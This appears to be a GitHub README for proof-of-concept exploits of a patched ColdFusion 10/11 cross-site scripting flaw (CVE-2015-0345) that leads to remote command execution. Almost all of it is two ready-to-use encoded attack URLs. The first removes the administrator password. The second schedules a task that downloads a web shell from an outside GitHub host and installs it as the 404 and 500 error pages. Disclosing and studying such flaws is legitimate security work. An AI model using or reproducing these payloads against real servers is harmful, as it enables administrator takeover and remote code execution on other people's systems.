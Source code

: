 ColdFusion 10.x 11.x XSS -> RCE PoC Exploits
------------

This repo contains XSS vectors for CVE-2015-0345 (APSB15-07) that allow for the ability to gain remote command execution on ColdFusion installations.

This exploit is only valid for ColdFusion 10 and 11 installations. Specifically, ColdFusion 11, Update 11 and ColdFusion 10, Update 16 fixes both of these issues. More information on this disclosure can be found [here](https://helpx.adobe.com/security/products/coldfusion/apsb15-07.html).

##Payload 1

This payload disables the requirement of a password on the ColdFusion administration panel. If this payload is delivered and ran by a ColdFusion administrator, the /CFIDE/administrator directory can be accessed completely, without authentication.

`https://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2c%65%78%70%61%6e%64%65%64%3a%27%5c%78%32%46%27%7d%2c%66%75%6e%63%74%69%6f%6e%28%66%69%6c%65%29%7b%70%61%74%68%20%3d%20%66%69%6c%65%3b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%74%68%62%6f%78%22%29%2e%76%61%6c%75%65%20%3d%20%70%61%74%68%3b%7d%29%3b%24%2e%67%65%74%28%20%22%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%66%75%6e%63%74%69%6f%6e%28%20%64%61%74%61%20%29%20%7b%20%76%61%72%20%61%20%3d%20%22%5b%30%2d%39%41%2d%5a%5d%7b%34%30%7d%22%3b%20%76%61%72%20%74%20%3d%20%64%61%74%61%2e%6d%61%74%63%68%28%61%29%3b%20%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%20%78%68%72%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%35%30%30%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%74%72%75%65%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%22%2c%20%22%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%2a%2f%2a%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%22%2c%20%22%65%6e%2d%55%53%2c%65%6e%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%20%76%61%72%20%62%6f%64%79%20%3d%20%22%61%64%6d%69%6e%73%75%62%6d%69%74%3d%53%75%62%6d%69%74%2b%43%68%61%6e%67%65%73%26%63%73%72%66%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%41%64%6d%69%6e%41%75%74%68%3d%6e%6f%6e%65%26%63%66%61%64%6d%69%6e%5f%6f%6c%64%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%43%6f%6e%66%69%72%6d%3d%26%73%65%65%64%3d%26%61%6c%6c%6f%77%63%6f%6e%63%6c%6f%67%69%6e%3d%74%72%75%65%22%3b%20%76%61%72%20%61%42%6f%64%79%20%3d%20%6e%65%77%20%55%69%6e%74%38%41%72%72%61%79%28%62%6f%64%79%2e%6c%65%6e%67%74%68%29%3b%20%66%6f%72%20%28%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%61%42%6f%64%79%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%61%42%6f%64%79%5b%69%5d%20%3d%20%62%6f%64%79%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%3b%20%78%68%72%2e%73%65%6e%64%28%6e%65%77%20%42%6c%6f%62%28%5b%61%42%6f%64%79%5d%29%29%3b%20%7d%29%3b%24%28%27%23%66%69%6c%65%54%72%65%65%44%65%6d%6f%5f%31%27%29%2e%66%69%6c%65%54%72%65%65%28%7b%73%63%72%69%70%74%3a%27%2e%2e%2f%2e%2e%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%61%6a%61%78%74%72%65%65%2f%6a%71%75%65%72%79%46%69%6c%65%54%72%65%65%2e%63%66%6d%3f%74%79%70%65%3d%64%69%72&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`

##Payload 2

This payload attempts to upload a CFM shell to ColdFusion via the scheduling of tasks and modification of 404 and 500 error templates. If this payload delivered and ran by a ColdFusion administrator, a web-shell is then made available at `/404.cfm` and `/500.cfm`.

`http://127.0.0.1:8500/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2cexpanded%3a%27%5cx2F%27%7d%2cfunction%28file%29%7bpath%20%3d%20file%3bdocument%2egetElementById%28%22pathbox%22%29%2evalue%20%3d%20path%3b%7d%29%3bfunction+getCSRFToken%28e%29%7Breturn+%24.get%28e%2Cfunction%28%29%7B%7D%29%7Dfunction+getFullPath%28%29%7Breturn+%24.get%28%22%2FCFIDE%2Fadministrator%2Fsettings%2Fmappings.cfm%22%2Cfunction%28e%29%7Bb%3D%22%2F.%2A%2FCFIDE%26nbsp%22%2Cu%3De.match%28b%29%2Cu%3Du%5B0%5D.replace%28%22%26nbsp%22%2C%22%22%29%7D%29%7Dfunction+postNewTask%28e%2Ct%2Cr%29%7Bvar+n%3D%22csrftoken%3D%22%2Bt%2B%22%26TaskName%3D%22%2Be%2B%22%26Group%3Ddefault%26Start_Date%3D03%252F30%252F2015%26End_Date%3D%26ScheduleType%3DOnce%26StartTimeOnce%3D8%253A44%2BPM%26Interval%3DDaily%26StartTimeDWM%3D%26customInterval_hour%3D0%26customInterval_min%3D0%26customInterval_sec%3D0%26CustomStartTime%3D%26CustomEndTime%3D%26repeatradio%3Drepeatforeverradio%26Repeat%3D%26crontime%3D%26Operation%3DHTTPRequest%26ScheduledURL%3Dhttps%253A%252F%252Fraw.githubusercontent.com%252FhatRiot%252Fclusterd%252Fa748bff7650c2b955fe1bb6a36db340e4ad4a213%252Fsrc%252Flib%252Fcoldfusion%252Ffuze.cfml%26Username%3D%26Password%3D%26Request_Time_out%3D%26proxy_server%3D%26http_proxy_port%3D%26proxy_user%3D%26proxy_password%3D%26publish%3D1%26publish_file%3D%22%2Br%2B%22%26publish_overwrite%3Don%26eventhandler%3D%26exclude%3D%26onmisfire%3D%26onexception%3D%26oncomplete%3D%26priority%3D5%26retrycount%3D3%26advancedmode%3Dtrue%26adminsubmit%3DSubmit%26taskNameOriginal%3D%26groupOriginal%3Ddefault%26modeOriginal%3Dserver%22%3Breturn+%24.ajax%28%7Burl%3A%22%2FCFIDE%2Fadministrator%2Fscheduler%2Fscheduleedit.cfm%22%2Ctype%3A%22POST%22%2Cdata%3An%7D%29%7Dfunction+executeTask%28e%2Ct%29%7Breturn+%24.get%28%22%2FCFIDE%2Fadministrator%2Fscheduler%2Fscheduletasks.cfm%3Fruntask%3D%22%2Be%2B%22%26group%3Ddefault%26mode%3Dserver%26csrftoken%3D%22%2Bt%2Cfunction%28%29%7B%7D%29%7Dfunction+setAsTemplate%28e%2Ct%29%7Bvar+r%3D%22csrftoken%3D%22%2Bt%2B%22%26LimitTime%3Dtrue%26MaxSeconds%3D60%26enablePerAppSettings%3D1%26uuidtoken%3D1%26enablehttpst%3D1%26WsEnable%3D1%26secureJSONPrefix%3D%252F%252F%26outputBufferMax%3D1024%26enableInMemoryFileSystem%3D1%26inMemoryFileSystemLimit%3D100%26inMemoryFileSystemApplicationLimit%3D20%26WatchInterval%3D120%26globalScriptProtect%3DFORM%252CURL%252CCOOKIE%252CCGI%26allowExtraAttributesInAttrColl%3D1%26cFaaSGeneratedFilesExpiryTime%3D30%26ORMSearchIndexDirectory%3D%26CFFORMScriptSrc%3D%252FCFIDE%252Fscripts%252F%26GoogleMapKey%3D%26serverCFC%3DServer%26compileExtForInclude%3D%2A%26applicationCFCLookup%3D1%26MissingTemplateHandler%3D%22%2BencodeURI%28e%29%2B%22%26SiteWideErrorHandler%3D%22%2BencodeURI%28e%29%2B%22%26postParametersLimit%3D100%26postSizeLimit%3D20%26throttleThreshold%3D4%26throttleMemory%3D200%26adminsubmit%3DSubmit%2BChanges%22%3Breturn+%24.ajax%28%7Burl%3A%22%2FCFIDE%2Fadministrator%2Fsettings%2Fserver_settings.cfm%22%2Ctype%3A%22POST%22%2Cdata%3Ar%7D%29%7Dtask_name%3D%22Coldfusion%2520Update%22%2C%24.when%28getCSRFToken%28%22%2FCFIDE%2Fadministrator%2Fscheduler%2Fscheduletasks.cfm%22%29%2CgetFullPath%28%29%29.done%28function%28e%2Ct%29%7Bvar+r%3De%5B2%5D.responseText%2Cn%3D%22%5B0-9A-Z%5D%7B40%7D%22%2Co%3Dr.match%28n%29%5B0%5D%3Bconsole.log%28o%29%3Bvar+a%3Dt%5B2%5D.responseText%2Ci%3D%22%2F.%2A%2FCFIDE%26nbsp%22%2Cs%3Da.match%28i%29%2Cs%3Ds%5B0%5D.replace%28%22%26nbsp%22%2C%22%22%29%3Bconsole.log%28o%2Cs%29%3Bvar+c%3Ds%2B%22%2Fupdate_cf.log%22%2Cl%3D%22%2FCFIDE%2Fupdate_cf.log%22%3B%24.when%28postNewTask%28task_name%2Co%2Cc%29%29.done%28function%28%29%7B%24.when%28executeTask%28task_name%2Co%29%29.done%28function%28%29%7B%24.when%28getCSRFToken%28%22%2FCFIDE%2Fadministrator%2Fsettings%2Fserver_settings.cfm%22%29%29.done%28function%28e%29%7Bvar+t%3De%2Cr%3D%22%5B0-9A-Z%5D%7B40%7D%22%2Cn%3Dt.match%28r%29%5B0%5D%3B%24.when%28setAsTemplate%28l%2Cn%29%29.done%28function%28%29%7Bconsole.log%28%22%25c+Shell+can+be+found+at+%22%2Bdocument.location.origin%2B%22%2F404.cfm%22%2C%22background%3A+%23D14126%3B+color%3A+white%22%29%2Cconsole.log%28%22%25c+Shell+can+be+found+at+%22%2Bdocument.location.origin%2B%22%2F500.cfm%22%2C%22background%3A+%23D14126%3B+color%3A+white%22%29%2Cconsole.log%28%22%25c+Username%3A+god%2C+Password%3A+default%22%2C%22background%3A+%23D14126%3B+color%3A+white%22%29%7D%29%7D%29%7D%29%7D%29%7D%29%3B%24%28%27%23fileTreeDemo_1%27%29%2efileTree%28%7bscript%3a%27%2e%2e%2f%2e%2e%2fadministrator%2fajaxtree%2fjqueryFileTree%2ecfm%3ftype%3ddir&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`
